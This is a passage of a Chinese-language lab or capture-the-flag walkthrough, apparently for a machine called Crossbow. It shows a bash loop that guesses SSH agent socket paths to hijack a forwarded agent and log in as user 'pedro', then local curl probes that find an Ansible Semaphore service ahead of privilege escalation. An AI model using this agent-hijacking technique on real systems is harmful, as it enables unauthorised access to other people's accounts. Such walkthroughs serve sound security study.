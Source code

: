 没有头绪，先砰砰运气，在前后五十个PID内查看一下是否可以登录：

```bash
for i in {1040..1140}; do SSH_AUTH_SOCK=/tmp/ssh-XXXXXXcE94FH/agent.$i  ssh pedro@172.20.10.3; done
```

一直按回车：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404032205688.png" alt="image-20240403213504381" style="zoom: 50%;" />

运气真好，直接搞出来了。

### 提权值root

查看一下连接情况：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404032205689.png" alt="image-20240403214019154" style="zoom:33%;" />

发现两个不明连接：

```apl
127.0.0.1:3306
127.0.0.1:3000
```

访问一下：

```html
╭─pedro@crossbow ~ 
╰─$ curl 127.0.0.1:3306
curl: (1) Received HTTP/0.9 when not allowed
╭─pedro@crossbow ~ 
╰─$ curl 127.0.0.1:3000                                                                                                                                 1 ↵
<!DOCTYPE html>
<html lang="en">
  <head>
    <base href="/">
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width,initial-scale=1.0">
    <link rel="icon" href="favicon.png">
    <title>Ansible Semaphore</title>
  <script defer type="module" src="js/chunk-vendors.66355ca7.js"></script><script defer type="module" src="js/app.b2fc4bb2.js"></script><link href="css/chunk-vendors.e1031f37.css" rel="stylesheet"><link href="css/app.13f6f466.css" rel="stylesheet"><script defer src="js/chunk-vendors-legacy.b392e67e.js" nomodule></script><script defer src="js/app-legacy.cefb5b9b.js" nomodule></script></head>
  <body>
    <noscript>
      <strong>
          We're sorry but web doesn't work properly
          without JavaScript enabled. Please enable it to continue.
      </strong>
    </noscript>
    <div id="app"></div>
    <!-- built files will be auto injected -->
  </body>
</html>
```
